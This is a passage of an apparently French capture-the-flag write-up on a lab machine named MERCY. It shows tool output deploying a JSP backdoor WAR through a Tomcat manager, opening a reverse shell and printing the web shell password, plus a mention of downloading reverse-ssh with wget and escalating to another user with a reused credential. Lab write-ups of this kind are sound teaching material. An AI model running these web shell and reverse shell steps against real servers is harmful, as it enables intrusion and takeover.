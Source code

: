 ```console
DEBUG: b'/tmp/tmpps99qama\n\xe2\x94\x9c\xe2\x94\x80\xe2\x94\x80 files\n\xe2\x94\x82\xc2\xa0\xc2\xa0 \xe2\x94\x9c\xe2\x94\x80\xe2\x94\x80 META-INF\n\xe2\x94\x82\xc2\xa0\xc2\xa0 \xe2\x94\x82\xc2\xa0\xc2\xa0 \xe2\x94\x94\xe2\x94\x80\xe2\x94\x80 MANIFEST.MF\n\xe2\x94\x82\xc2\xa0\xc2\xa0 \xe2\x94\x94\xe2\x94\x80\xe2\x94\x80 WEB-INF\n\xe2\x94\x82\xc2\xa0\xc2\xa0     \xe2\x94\x94\xe2\x94\x80\xe2\x94\x80 web.xml\n\xe2\x94\x94\xe2\x94\x80\xe2\x94\x80 index.jsp\n\n4 directories, 3 files'
DEBUG: Checking if app jsp_app is deployed at: http://192.168.56.118:8080/manager
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://http://192.168.56.118:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpps99qama"
INFO: WAR DEPLOYED! Invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.1:9999
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.118:8080/jsp_app/"
DEBUG: Adding 'X-Pass: PezMjeRnRaGZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.118:35122
DEBUG: Application invoked correctly.
INFO: ------------------------------------------------------------
INFO: JSP Backdoor up & running on http://192.168.56.118:8080/jsp_app/
INFO: 
Happy pwning. Here take that password for web shell: 'PezMjeRnRaGZ'
INFO: ------------------------------------------------------------

Exception in thread Thread-1 (shellHandler):
Traceback (most recent call last):
  File "/usr/lib64/python3.10/threading.py", line 1016, in _bootstrap_inner
    self.run()
  File "/usr/lib64/python3.10/threading.py", line 953, in run
    self._target(*self._args, **self._kwargs)
  File "/tmp/tomcatWarDeployer/tomcatWarDeployer/tomcatWarDeployer.py", line 229, in shellHandler
    shellLoop(sock, host)
  File "/tmp/tomcatWarDeployer/tomcatWarDeployer/tomcatWarDeployer.py", line 141, in shellLoop
    if 'Microsoft Windows [Version' in initialRecv.decode():
AttributeError: 'str' object has no attribute 'decode'. Did you mean: 'encode'?
```

Il semble que le fork ait oublié de corriger quelques cas... Au moins il a laissé un webshell à l'URL présente dans l'output. J'en profite pour récupérer un *reverse-ssh* via `wget` depuis ma machine et les affaires reprennent.

## Je nettoyais mon bash et le coup est parti tout seul

Le second couple utilisateur / mot de passe qui était dans la configuration *Tomcat* permet la connexion via `su` :

```console
tomcat7@MERCY:/tmp$ su fluffy
Password: 
Added user fluffy.

$ find . -ls
143983    4 drwxr-x---   3 fluffy   fluffy       4096 Nov 20  2018 .
143999    4 -rw-------   1 fluffy   fluffy         12 Nov 20  2018 ./.bash_history
143991    4 drwxr-xr-x   3 fluffy   fluffy       4096 Nov 20  2018 ./.private
270860    4 drwxr-xr-x   2 fluffy   fluffy       4096 Nov 20  2018 ./.private/secrets
270862    4 -rwxr-xr-x   1 fluffy   fluffy         37 Nov 20  2018 ./.private/secrets/backup.save
270861    4 -rwxrwxrwx   1 root     root          222 Nov 20  2018 ./.private/secrets/timeclock
270863    4 -rw-r--r--   1 fluffy   fluffy         12 Nov 20  2018 ./.private/secrets/.secrets
```
